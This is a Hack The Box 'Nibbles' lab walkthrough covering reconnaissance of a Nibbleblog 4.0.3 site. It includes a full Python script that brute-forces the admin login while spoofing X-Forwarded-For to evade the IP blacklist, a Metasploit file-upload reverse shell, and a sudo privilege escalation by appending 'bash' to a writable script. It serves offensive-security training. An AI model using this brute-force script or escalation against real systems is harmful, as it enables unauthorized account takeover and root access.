

## Reconnaissance

### nmap 

```
nmap -sC -sV -oA nibbles 10.129.228.102
```


### WebSite


- Check html source
- There is a comment shows that "/nibbleblog/ directory. Nothing interesting here"
 

- Check nibbleblog directory 
- A blog page will show.


- Here is a [nibbleblog homepage](https://www.nibbleblog.com/)
- I think it's a third party blog template 


### search exploit 
```
searchsploit nibbleblog
```

![]](Image/[IMG]Nibbles/5.png)

### Path Enumeration

- Gobuster
```
gobuster dir -u http://10.129.228.102/nibbleblog -w /usr/share/wordlists/dirb/common.txt
```
- Find admin page ```/admin ``` & ```/admin.php```


### Admin page

- Check admin page, it needs login


- bruteforce for default password and try it.


- If the credential wrong, it will display "Incorrect username or password".


- Trigger Security alert -> ```Nibbleblog security error -Blacklist protection```


- Check admin path


- Check every directory under content path


- In Private directory, I can find many xml file
- Check each of them.


- Finally, I can find users xml file
- It shows the username is admin
- Besides that, I also know that it will count the login failed IP address, when it count to 5, the IP will be banned, and it will show alert "```Nibbleblog security error -Blacklist protection```".


- Check README, I know the nibbleblog version is ```v4.0.3```


## Exploit 

- According to the research for Nibbleblog version 4.0.3. 
- According to previous searchsploit result, Version 4.0.3 have a vulnerability.


- Let't check it.


- According to the options information, I think the username and password is necessary
- And now I know the username is admin.
- I need to find out the password, but the website has blacklist mechanism to prevent the bruteforce.
- After some test, I think the sites doesn't disable 'X-Forwarded-For' header.

### Bypass blacklist check

- Using X-Forwarded-For header to spoof the IP
- Check the request, login feature use POST method with two parameter (username, password)


- And it will record the failed IP address and frequency in user xml file


- So if I add X-Forwarded-For header with '10.10.10.2'


- The xml file will have one more record about '10.10.10.2'


- Now, it's code time, the main idea is using 'rockyou.txt' as password wordlist and change the X-Forwarded-For IP address everytime to avoid blacklist.
```
import requests 
import os 

url = 'http://10.129.228.104/nibbleblog/admin.php'
username = 'admin'
error = "Incorrect username or password."

def bruteCracking(username, url, error):
    IP0 = 0
    IP1 = 1
    IP2 = 0 
    for password in passwords:
        password = password.strip()
        print("Trying:" + password)
        if IP1 >= 255:
            IP0 += 1
            IP1 = 0
            IP2 = 0
        if IP2 >= 255:
            IP1 += 1
            IP2 = 0
        
        IP = '10.' + str(IP0) + '.' + str(IP1) + '.' + str(IP2)
        print("Headers:" + IP)
        headers = {'X-Forwarded-For': IP}
        #print("headers:" + headers)
        data_dict = {"username": username, "password": password}
        print(data_dict)
        response = requests.post(url, headers=headers, data=data_dict)
        if error in str(response.content):
            IP2 += 1
            print("Error, IP2:" + str(IP2))
            pass
        else:
            print("Username: ---> " + username)
            print("Password: ---> " + password)
            exit()

with open("/usr/share/wordlists/rockyou.txt", "r") as passwords:
     bruteCracking(username,url,error)
print("[!!] password not found in password list")

```


- Start to bruteforce 


- Yes, I got the password is ```nibbles```


- Using it to login. 


### Exploit by metasploit

- According to the exploit result, let's try the file upload one.
- Exploit Code: Arbitrary File Upload on nibbleblog 4.0.3
- Set necessary information, especially username and password


- Reverse shell for meterpreter


- Got meterpreter reverse, run shell to use bash
```
shell
```


- Using python to change to fully shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


- Check user 
```
id
```


- Get flag: ```15ad5a7f757ff8312de49cfe6a0d5db4```


## Post Exploitation 


- Check sudo permission for nibbler
```
sudo -l
```
- User nibbler can use root permission to execute monitor shell file without password
- So write "bash" to the bottom of monitor shell file
```
echo "bash" >> monitor.sh
```
- Execute it with sudo
```
sudo ./monitor.sh
```


- Check user
```
id
```


- Get root flag: ``` cc1f1d99af0cd7934ba2ef6061828634 ```


## Reference 

- [nibbleblog homepage](https://www.nibbleblog.com/)
- [(GITHUB)nibbleblog](https://github.com/dignajar/nibbleblog)
- [BruteForce Python Code Sample](https://blog.devgenius.io/brute-force-attack-with-python-c1d70fcba607)
- [(writeup) nibbles](https://medium.com/@ann_17/nibbles-hack-the-box-walkthrough-without-metasploit-88a921ec6fac)
- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Shell Generator](https://www.revshells.com/)
- [METERPRETER BASIC COMMANDS](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)


###### tags: `HackTheBox` `Easy` `linux` `nibbleblog` `bruteforce attack` 